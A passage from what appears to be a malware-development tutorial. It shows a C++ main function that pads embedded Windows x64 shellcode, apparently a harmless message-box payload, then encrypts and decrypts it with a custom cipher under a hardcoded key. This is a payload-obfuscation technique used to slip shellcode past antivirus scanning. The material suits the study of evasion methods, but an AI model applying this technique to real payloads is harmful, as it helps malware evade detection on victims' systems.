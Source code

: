 ```cpp
    memcpy(ptr, pad, remaining);
  }
}
```

Finally, putting it all together in `main`:     

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

```